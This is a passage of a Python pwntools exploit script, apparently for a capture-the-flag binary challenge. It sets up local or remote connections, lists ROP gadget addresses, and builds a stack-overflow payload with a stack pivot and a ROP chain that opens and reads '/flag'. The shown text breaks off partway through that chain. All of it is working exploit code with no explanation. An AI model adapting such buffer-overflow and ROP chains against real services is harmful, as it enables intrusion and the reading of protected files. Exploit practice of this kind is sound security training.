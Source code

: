 ```python
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

# info
# gadget
prdi = 0x0000000000400a43 # pop rdi ; ret
leave = 0x000000000040090d # leave ; ret
m3c = 0x00400a20
p6r = 0x00400a3a
prsi = 0x0000000000400a41 # pop rsi ; pop r15 ; ret
prbp = 0x0000000000400830 # pop rbp ; ret

# elf, libc
buf = 0x6010a0
open_func = 0x400985
read_plt = elf.symbols['read']
main = elf.symbols['main']
open_plt = elf.symbols['open']
puts_plt = elf.symbols['puts']
bss_base = elf.bss() + 0x200

# rop1
offset = 80
payload = '\0'*offset
payload += p64(buf)
payload += p64(leave)

# open('/flag',0,0x100)
stack = p64(p6r) + p64(0) + p64(1) + p64(buf+0x8*9) + p64(0x100) + p64(0) + p64(buf+0x8*18) + p64(m3c) + p64(open_plt)
# read(4,bss_base,0x100)
stack += p64(0) + p64(1) + p64(buf+0x8*17) + p64(0x100) + p64(bss_base) + p64(0x4) + p64(m3c) + p64(read_plt)
# padding
```
